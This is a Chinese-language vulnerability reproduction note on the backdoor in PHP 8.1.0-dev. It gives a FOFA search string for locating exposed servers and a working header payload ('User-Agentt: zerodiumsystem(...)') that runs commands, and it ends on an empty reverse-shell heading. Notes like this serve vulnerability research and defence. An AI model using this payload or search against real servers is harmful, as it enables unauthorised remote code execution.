

# PHP zerodium后门漏洞

## 漏洞描述

PHP开发工程师Jake Birchall在对其中一个恶意COMMIT的分析过程中发现，在代码中注入的后门是来自一个PHP代码被劫持的网站上，并且采用了远程代码执行的操作，并且攻击者盗用了PHP开发人员的名义来提交此COMMIT。

目前为止PHP官方并未就该事件进行更多披露，表示此次服务器被黑的具体细节仍在调查当中。由于此事件的影响，PHP的官方代码库已经被维护人员迁移至GitHub平台，之后的相关代码更新、修改将会都在GitHub上进行。

## 漏洞影响

```
PHP 8.1.0-dev
```

## FOFA

```
"PHP/8.1.0-dev"
```

## 漏洞复现

后门为添加请求头

```plain
User-Agentt: zerodiumsystem('id');
```

- 是 User-Agentt 不是 User-Agent


反弹shell

